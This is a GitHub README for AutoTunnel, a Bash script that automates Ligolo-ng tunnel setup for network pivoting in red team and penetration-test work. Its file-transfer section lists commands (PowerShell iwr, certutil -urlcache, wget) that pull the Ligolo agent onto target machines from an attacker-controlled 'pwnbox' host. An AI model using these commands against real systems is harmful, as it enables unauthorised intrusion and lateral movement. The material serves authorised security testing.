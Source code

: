 
# AutoTunnel

AutoTunnel is an automated script for setting up Ligolo tunnels, streamlining network pivoting during red team engagements and penetration tests. The script performs interface setup, IP routing, and launches a Python server for easy file transfer to target machines.

## Features
- Automates Ligolo tunnel setup.
- Checks and configures network interfaces.
- Deletes previous tunnel routes before adding new ones.
- Allows selection of the listening network interface.
- Starts a Python HTTP server for file transfers.
- Provides easy commands for transferring and running Ligolo agents on targets.
- Kills processes using port 65000 before starting the server.
- Automatically installs missing dependencies on the first run.

## Requirements
- Bash
- Ligolo Proxy & Agent
- lolcat (optional, for colored output)
- figlet (optional, for banner text)
- Python (for HTTP server)
- lsof (for checking port usage)

## Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/yourusername/AutoTunnel.git
   cd AutoTunnel
   chmod +x AutoTunnel.sh
   ```
2. Install Dependencies If not already installed
   ```bash
   sudo apt update && sudo apt install figlet lolcat lsof
   ```
3. The script will automatically check for missing dependencies and install them on the first run.

## Usage
Run the script with:
```bash
./AutoTunnel.sh
```

If any required dependencies are missing, the script will install them before execution.

Follow the on-screen prompts to set up the Ligolo tunnel.

## File Transfer
The script automatically starts an HTTP server on port 65000, allowing easy transfer of the Ligolo agent:

For Windows target:
```powershell
iwr -uri http://<pwnbox_ip>:65000/ligolo_agent.exe -outfile ligolo.exe
```
Or using certutil:
```cmd
certutil.exe -f -urlcache -split "http://<pwnbox_ip>:65000/ligolo_agent.exe"
```

For Linux target:
```bash
wget http://<pwnbox_ip>:65000/ligolo_agent
```



## Notes
- Ensure you have sufficient permissions to modify network routes.




## Author
(PenDevOps)

## Disclaimer
This tool is for educational and authorized security testing purposes only. Misuse of this tool may result in legal consequences. The author is not responsible for any misuse or damage caused.

source from https://github.com/nicocha30/ligolo-ng
